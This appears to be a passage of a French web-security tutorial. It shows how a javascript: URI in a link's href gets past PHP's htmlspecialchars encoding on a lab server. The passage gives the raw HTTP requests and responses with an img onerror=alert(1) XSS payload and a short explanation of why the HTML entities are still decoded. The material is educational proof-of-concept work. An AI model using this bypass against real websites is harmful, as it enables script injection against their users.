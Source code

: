 ```http
GET /minipoc/htmlspecialchars/?param=javascript:document.write(%22%3Cimg%20src=x%20onerror=alert(1)%3E%22) HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.38 (Debian)
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Attribut "href" d'un lien</title>
  </head>
  <body>
     <p><a href="javascript:document.write(&quot;&lt;img src=x onerror=alert(1)&gt;&quot;)">Lien</a></p>
  </body>
</html>
```

Etant donné que l'interpréteur est ici le moteur Javascript et non le moteur de rendu HTML, les entités HTML sont tout de même interprétées.

```http
GET /minipoc/htmlspecialchars/x HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://192.168.56.101/minipoc/htmlspecialchars/?param=javascript:document.write(%22%3Cimg%20src=x%20onerror=alert(1)%3E%22)
Connection: close
```

&#x20;Soit lors du clic de la victime :&#x20;

![](<../../../.gitbook/assets/image (35) (1).png>)
